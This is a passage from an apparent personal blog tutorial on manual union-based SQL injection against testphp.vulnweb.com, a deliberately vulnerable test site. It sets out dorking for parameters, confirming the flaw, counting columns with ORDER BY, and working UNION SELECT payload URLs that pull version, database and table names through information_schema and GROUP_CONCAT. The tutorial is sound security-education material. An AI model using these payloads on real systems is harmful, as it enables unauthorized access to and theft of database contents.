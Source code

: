 <h2>EXPLOITING UNION BASED SQL INJECTION MANUALLY</h2>

HERE I SHOWCASE HOW TO PERFORM A BASIC UNION BASED SQL INJECTION (MANUALLY)

KINDLY CHECK NEXT POST FOR ADVANCED UNION BASED SQLI WHERE I SHOWED HOW TO BYPASS SOME WAFS AND FILTERS

``Performing a Union-Based SQL Injection attack manually involves injecting a crafted payload into an input field or parameter to manipulate a SQL query and retrieve unauthorized data from the database. Please note that attempting SQL injection on systems you don't own or have explicit permission to test is illegal and unethical. Only perform these actions in a controlled, legal environment with proper authorization.``

Target: https://testphp.vulnweb.com/ (intentionally vulnerable site created for testing purpose)

**STEP 1:**

``Finding the injection point: we can simply find the injection point of a site by dorking for parameters with value``

dork example: ``site:testphp.vulnweb.com inurl:php?``. There are many dorks online you can search for more.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/71e2cbe6-2ad8-4704-b9f3-58d3157b6528)

clicking on any of those pages in the result should reveal the directory with parameter.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/58b964c7-9ede-40cd-8e2a-d4d19d435995)

As you can see we have a parameter and a value which we can then confirm the vulnerabilty

**STEP 2**

``Confirming the vulnerability: we can easily confirm the vulnerability by throwing a single quote or double quotes at the end of the parameter``
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1c2ec9d8-c6ee-4f2f-b026-fbcf65108af6)
As you can see it throws an SQL error which confirms the vulnnerability

**STEP 3**

``Adding a URL balancer(comment) to fix the error: well actually it only depends on the environment and reaction of application when we try some commenting operators. If you see php is used then usually "--" will surely work other wise you can check "--+" or "# (url encoded)", else the best option is to try with different types of comments and analyse the input. So what we will do to check is try to close our input with all possibilities like single quote double quote or brackets etc, and comment rest query and if it works then we can be sure that this comment is working.``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3541e6aa-8396-4dd6-aa65-7e5c2ad6f094)

No error after addiing the balancer. We can now proceed to the next step

**STEP 4**

``Finding the total number of columns present in the database``

we can easily use the ``order by`` or ``group by`` statement


![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/7f4aa84f-1f38-4a27-93d0-bab8aa9edb5f)

``order by 1`` didn't give error so we will keep increasing the number till we get error

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/29c929b1-85e3-4ca2-a288-994ec005e33f)

``order by 1000`` showed errors which means we dont have up to 1000 columns in the database

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/450dfa62-b496-41ca-826f-16caef47db97)

increasing the number i got error at ``order by 4`` which shows we have 3 columns present in the database


**STEP 5**

``Finding the vulnerable column: we will be injecting our SQL payloads in the vulnerable column``
 
 we can get the vulnerable column by adding a dot or a slash before the parametre value combined with the ``union select statement``
 
 ```http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3```

***Note the - after the = sign***

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/25527c10-1785-4f3b-b1d6-814f4f97dd47)
Those numbers showing on the screen are the vulnerable columns so, you can choose the one you prefer for the injection

i will be choosing column 2 here.

**STEP 6**

``getting the database name and version: you can get the database version by inputing the @@version or version() and for db name database() in the vulnerable column``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e600515b-3169-4dcc-9ee9-aafc8d6b7fe5)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/949e1917-e5e6-4667-aa93-d6b6ae8d4525)

```http://testphp.vulnweb.com/artists.php?artist=-1%20union%20select%201,version(),3```

**STEP 7**

``getting table names``

we can get the table names one by one by using the query ```table_name``` in the vulnerable column and then adding ```from information_schema.tables where table_schema=database() limit 0,1``` at the end of the query

```
First row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1
Second row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1
Third row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1
Forth row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 3,1
and so on...
```
Stressful right? lol i've gat your back mate

we can easily dump the table names once using the ``concat`` statement

```(SELECT+GROUP_CONCAT(table_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA=DATABASE())```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3d3ba4ed-842f-4f99-8668-f5dd9180e4bc)

cool we have the table names in a single shot
















